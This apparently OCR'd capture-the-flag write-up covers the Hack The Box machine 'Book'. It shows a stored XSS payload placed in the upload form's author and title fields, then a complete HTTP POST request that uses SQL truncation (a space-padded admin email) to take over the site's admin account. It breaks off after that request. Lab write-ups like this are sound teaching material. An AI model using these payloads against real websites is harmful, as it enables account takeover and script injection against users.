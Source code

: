     # Nmap done at Tue Feb 25 07:31:10 2020 -- 1 IP address (1 host up) scanned in 286.11 seconds

## Web

The landing web page is a simple sign up/ login form.

Missing picture: authentication and signup forms

We can create an account on the box (there is no email verification).

Once logged in we can browse the book collections, download them and learn
things about the flowers.

Missing picture: User panel

We can also upload books by uploading a PDF file and providing the author name
and the book title. This two fields are vulnerable to XSS injection even using a
simple payload as `<img src="" onerror=alert(1)/>`.

To trigger the XSS we need to search for our book.

Missing picture: admin panel

_Note: This need to be exploited quickly as the book collection is periodicaly
reset._

The Contact form give us the email address of the platform's administrator:
`admin@book.htb`.

## admin panel

When looking at the website pages we found `/admin/` another login form.

Using [SQL truncation](https://resources.infosecinstitute.com/sql-truncation-attack)
we can change the admin account password on the plateform:

We register a new user with a specific long email using Burp repeater.
Our post data request is the following:

    POST /index.php HTTP/1.1
    Host: 10.10.10.176
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.176/index.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 222
    Connection: close
    Cookie: PHPSESSID=9li0llrrcn7tthael9i5s8pmsr
    Upgrade-Insecure-Requests: 1

    name=ppqqe&email=admin%40book.htb%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20*&password=q
